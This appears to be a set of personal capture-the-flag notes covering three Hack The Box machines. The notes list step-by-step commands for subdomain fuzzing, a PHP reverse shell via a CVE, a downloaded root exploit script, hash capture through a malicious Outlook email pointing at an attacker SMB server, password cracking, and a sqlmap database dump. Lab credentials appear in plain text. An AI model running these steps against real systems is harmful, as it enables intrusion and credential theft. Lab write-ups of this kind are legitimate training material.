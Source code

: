 ## HTB: BoardLight 28 Sep 2024
```serverfun2$2023!!
1. fuzz host
  Fuzz header Host, and filter out response length 15949.
  cmd: ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u http://board.htb/ -H 'Host: FUZZ.board.htb' -fs 15949
2. default password login
3. exploit https://nvd.nist.gov/vuln/detail/CVE-2023-30253 manually, create PHP reverse shell.
4. goto website conf file: htdocs/conf/conf.php
5. find the user in /etc/passwd who has bash, then login by pass found in conf.php
6. Run LinPEAS.sh found suid enlightenment
7. find its version by cmd: enlightenment --version, which vuln to CVE-2022-37706
8. use exploit at: https://raw.githubusercontent.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/main/exploit.sh and get root.

```

## HTB: Mailing 07 Sep 2024 
a buggy box
inner network email phishing
```
1. Windows relative path traverse: "..\..\Windows\System32\drivers\etc\hosts" (not like linux: ../../etc/hosts)
2. google service config path: ..\..\..\Program+Files+(x86)\hMailServer\Bin\hMailServer.ini. download it
3. cmd: hashcat -m 0 ./md5-hash.txt /usr/share/wordlists/rockyou.txt (md5-hash.txt contains one line of the hashed pass found in .ini file)
4. a Google search for recent vulnerabilities related to Windows Mail -> CVE-2024-21413
5. git clone https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability 
6. TCP port 587 is the default port for sending outgoing emails using the Simple Mail Transfer Protocol (SMTP)
7. As found "Maya Bendito" on webpage, guess a user with email address maya@mailing.htb
8. start smb server on attacker machine: $ impacket-smbserver smbFolder $(pwd) -smb2support
9. Send CVE mail to user maya@mailing.htb, cmd: $ python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password 'homenetworkingadministrator' --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\YOUR_IP\smbFolder\test.txt" --subject Test
10. save captured pass in a file hast.txt
11. cmd: john -w=/usr/share/wordlists/rockyou.txt hash.txt
12. login as user maya, cmd:  evil-winrm -u maya -p m4y4ngs4ri -i mailing.htb
13. exploit https://www.libreoffice.org/about-us/security/advisories/cve-2023-2255/ to get root.
```

## HTB: Usage 10 Aug 2024
```
1. fuzz subdomain by cmd: ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u http://usage.htb/ -H 'Host: FUZZ.usage.htb' -fs 178. find admin.usage.htb
2. find SQL injection point at password reset page.
3. copy the POST request and save it in a file called reset.req
4. run sqlmap cmd: sqlmap -r reset.req -p email --batch (shows need higher level)
5. user highrer level of sqlmap: sqlmap -r reset.req -p email --batch --level 3 (shows vulnerable to boolean-based blind and time-based blind)
6. get a list of the available databases using the --dbs flag: sqlmap -r reset.req -p email --batch --level 3 --dbs
	(faster by --threads= flag)   (get 3 dbs, one is "usage_blog")
7. enumerate tables in database "usage_blog": sqlmap -r reset.req -p email --batch --level 3 -D usage_blog --tables --threads=10
	(got 15 tables, one is "admin_users")
8. Dump the "admin_users" table: sqlmap -r reset.req -p email --batch --level 3 -D usage_blog -T admin_users --dump
```
